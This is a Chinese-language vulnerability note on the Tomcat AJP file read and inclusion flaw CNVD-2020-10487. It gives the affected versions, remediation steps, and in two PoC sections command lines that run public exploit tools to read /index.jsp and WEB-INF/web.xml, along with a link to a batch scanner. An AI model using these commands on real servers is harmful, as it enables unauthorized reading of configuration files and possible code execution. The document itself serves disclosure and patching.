 # Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  
## 漏洞描述  
Apache Tomcat是由Apache软件基金会属下Jakarta项目开发的Servlet容器.默认情况下,Apache Tomcat会开启AJP连接器,方便与其他Web服务器通过AJP协议进行交互.但Apache Tomcat在AJP协议的实现上存在漏洞,导致攻击者可以通过发送恶意的AJP请求,可以读取或者包含Web应用根目录下的任意文件,如果配合文件上传任意格式文件，将可能导致任意代码执行(RCE).该漏洞利用AJP服务端口实现攻击,未开启AJP服务对外不受漏洞影响（tomcat默认将AJP服务开启并绑定至0.0.0.0/0）  
## 影响范围  
Apache Tomcat = 6  
7 <= Apache Tomcat < 7.0.100  
8 <= Apache Tomcat < 8.5.51  
9 <= Apache Tomcat < 9.0.31  
  
## poc1  
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
`java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp`  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/1.png)    
  
## poc2  
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/2.png)  
  
于2020.03.02补充  
网上出现了批量刷取AJP漏洞的脚本  
参考链接：https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner

# 漏洞修复：  
* 临时禁用AJP协议端口，在conf/server.xm l配置文件中注释掉```<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />```   
* 配置ajp配置中的secretRequired跟secret属性来限制认证  
* 官方下载最新版下载地址：  
https://tomcat.apache.org/download-70.cgi  
https://tomcat.apache.org/download-80.cgi  
https://tomcat.apache.org/download-90.cgi  
https://github.com/apache/tomcat/releases  
# Reference  
https://github.com/threedr3am/learnjavabug  
https://www.cnvd.org.cn/flaw/show/CNVD-2020-10487  
https://mp.weixin.qq.com/s/GzqLkwlIQi_i3AVIXn59FQ  
https://mp.weixin.qq.com/s/GMAR-KqcKPZyLe_D_WBdXA  
https://github.com/threedr3am/learnjavabug/blob/1f601a919605704e8e67b89213f233b82fa537c7/tomcat/ajp-bug/src/main/java/com/threedr3am/bug/tomcat/ajp/FileRead.java  
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/8bd38f4cf22331ecf4e48096a78c5931509c26be/CNVD-2020-10487-Tomcat-Ajp-lfi.py

